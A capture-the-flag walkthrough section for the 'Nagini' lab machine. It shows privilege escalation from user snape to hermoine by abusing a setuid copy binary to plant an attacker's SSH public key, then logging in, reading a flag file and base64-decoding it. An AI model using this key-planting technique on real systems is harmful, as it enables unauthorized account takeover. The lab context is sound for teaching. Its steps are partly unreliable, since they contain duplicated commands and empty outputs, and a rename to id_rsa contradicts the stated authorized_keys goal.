







5.1.2 Privilege user "Hermoine" (Getting the 2nd flag)
In linux, there is a file called
authorized keys with restrictive read and write permission. If we store our own public keys to that file, we should be able to login using our private key to the server.As we know that,
su_cp has setuid permission of “hermoine”. 
So, we can create a file authorized_keys using our user “snape”. Then, we can impersonate hermoine to give her permission to the file.
1. On your Kali Machine create a “ssh key” with a blank passphrase using “ssh-keygen”.
$cd ~/.ssh
$ssh-keygen
$ssh-keygen
Output:

2. Show <Your public key>.
$cat id_rsa.pub
Output:

3. On the SSH connection copy the content to a new file.
snape@Nagini:~$echo <<Your public key>> > authorized_keys
snape@Nagini:~$chmod 640 authorized_keys
snape@Nagini:~$ls -al
snape@Nagini:~$chmod 640 authorized_keys
snape@Nagini:~$ls -al
Output

4. Rename the file to “id_rsa”.
snape@Nagini:~$mv authorized_keys id_rsa
5. Copy the authorized keys.
snape@Nagini:~$cd /home/hermoine/bin
snape@Nagini:/home/hermoine/bin$./su_cp -p /home/snape/id_rsa /home/hermoine/.ssh/
snape@Nagini:/home/hermoine/bin$./su_cp -p /home/snape/id_rsa /home/hermoine/.ssh/
6. Login as “hermoine” user.
But this time, we have to use our private key since we don’t have password and we have already added our public key to the “authorized_keys” file.
On your Kali Machine run the following command.
$ssh hermoine@192.168.12.21 -i .ssh/id_rsa
Output

You got access to hermoine.
7. Run the following commands to get the second flag.
hermoine@Nagini:~$ls
hermoine@Nagini:~$cat horcrux2.txt
hermoine@Nagini:~$cat horcrux2.txt
Output

The part in the curly brackets (NDogSGVsZ2EgSHVmZmxlcHVmZidzIEN1cCBkZXN0cm95ZWQgYnkgSGVybWlvbmU=) is a base64 encoded string.
8. Let's decode it. On your Kali Machine run the following command.
$echo 'NDogSGVsZ2EgSHVmZmxlcHVmZidzIEN1cCBkZXN0cm95ZWQgYnkgSGVybWlvbmU=' | base64 --decode
Output:
